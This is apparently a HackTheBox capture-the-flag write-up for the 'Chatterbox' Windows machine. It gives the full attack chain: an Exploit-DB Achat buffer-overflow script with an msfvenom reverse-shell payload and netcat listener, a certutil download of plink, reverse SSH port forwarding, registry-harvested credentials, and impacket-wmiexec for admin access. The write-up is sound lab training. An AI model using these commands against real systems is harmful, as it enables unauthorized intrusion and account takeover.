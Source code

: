 # ChatterBox [HTB](https://app.hackthebox.com/machines/Chatterbox)
![chatterbox-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/chatterbox-01.png)



## Recon

Lets enumerate the machine with `nmap`:

`nmap -sC -sV -A 10.129.214.7 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/nmap-res-02.png)


We
We get the following ports:

+ RPC endpoint-mapper on port 135.
+ SMB on port  445.
+ NetBIOS on port 139.
+ HTTP on port 9255.
+ Custom TCP service on port 9256.
+ Other RPC endpoint on 49152-49157.


We can also see the target is probably a Windows 7 system. 
Lets start by taking a look at the SMB and RPC endpoints and see if we can snatch any quick 
wins there. 



### SMB


Altough we can login anonymously to the IPC$ share with `smbclient -U "%" -N \\\\10.129.214.7\\IPC$`:

![ipc-connect-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-connect-03.png)


We cant do anything inside: 

![ipc-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-fail-04.png)


If we check the SMB version with msf's `scanner/smb/smb_version`, well see that the target 
is running SMB v2.1: 

![msf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/msf-res-05.png)



SMB v2.1, should be vulnerable to `Eternal-Blue`, but after a quick check our target is not:
`scanner/smb/smb_ms17_010`

![eb-res-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/eb-res-06.png)
 

At the moment, SMB doesnt look like the way forward, `enum4linux` yields nothing meaningful, 
and it seems that the SMB is tightly guarded. 

Lets move on to check the HTTP and the custom RPC port. 



### Achat


Trying to open the following URL `http://10.129.214.7:9255/`, quickly fails, nothing happens, 
no error message or redirects. Adding the hostname to our `/etc/hosts` doenst help. 


If we open Burp, we can see we are getting a `204 No-Content` replay: 

![204-replay-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/204-replay-07.png)



At first i thought Achat was a custom service tailored for this box specifically. But after
a quick goolge search i came to find out i was worng. Apparently its an open-source anonymous chat
application, and it has a [github](https://github.com/0301yasiru/aChat).


A quick google search also leads to [this](https://tenaka.gitbook.io/pentesting/boxes/achat) page.
Apparently, Achat is vulnerable to a buffer-overflow attack, and we have the exploit ready on 
our Kali machine in `/usr/share/exploitdb/exploits/windows/remote/36025.py`. 


Here is the exploit breakdown: 

copy the exploit to our CWD `cp /usr/share/exploitdb/exploits/windows/remote/36025.py achat.py`

update the shellcode with the following `msfvenom` command:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=<myip> lport=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Take the output, and replace the `buf` varaible in the exploit with it.
Finally, change the target IP in the exploit:

![target-exp-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/target-exp-08.png)


Start the listener: `nc -lnvp 4444`


Execute the exploit `./achat.py`


Get a shell: 

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/shell-09.png)


## Privilege Escalation


After running a few basic commands from [sushant](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)'s cheat sheet, i found something interesting. 

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`


![pass-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/pass-10.png)


If we list out our open ports on the machine with `netstat -ano` we can see the following: 


![netstat-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/netstat-11.png)


We have all these ports running on the localhost. nmap did manage to detect them for some 
reason. Now that we have credentials however, we could try to get access to them. But since they 
are running on the localhost, we need to setup port forwarding to our attack machine. 

For this we need [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html),
Download the 32-bit version to your attack machine.

Start a python server `python3 -m http.server 8888`

Download it to the target with `certutil -urlcache -f http://10.10.14.21:8888/plink.exe plink.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/transfer-12.png)


Now we need to change two things in the `/etc/sshd/sshd_config` file on our kali.

First, permit root logins: 

![ssh-mod-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-13.png)


Second, change the deafult port to 2222:

![ssh-mod-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-14.png)


This is necessary beacuse HTB's firewalls block port 22. 
Finally start the ssh service with `service ssh start`.

Now we can run the port forwarding on the target machine with:
`plink.exe -l root -pw <pass> -R 445:127.0.0.0.1:445 10.10.14.68 -P 2222`


![plink-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/plink-15.png)


On our Kali machine we can check the status of port 445 with `netstat -ao | grep 445`:


![445-status-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/445-status-16.png)


We can now start connecting to the SMB on the target through our localhost. 
Lets try logging in to the Admin$ share with `smbclient -U 'Alfred%Welcome1!' //127.0.0.1/Admin$`

![admin-fail-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-fail-17.png)


This fails, says we dont have access. What if we tried to use the same password with the 
Administrator account, after all Alfred and Administrator are the only two users on the machine.
And weve only found this one password in our enumeration, worth a shot. 


![admin-success-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-success-18.png)



That's it, they use the same password. From here we can use `wmiexec` to pop a shell as the admin. 
`impacket-wmiexec Administrator:Welcome1\!@10.129.151.176`


![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/root-19.png)
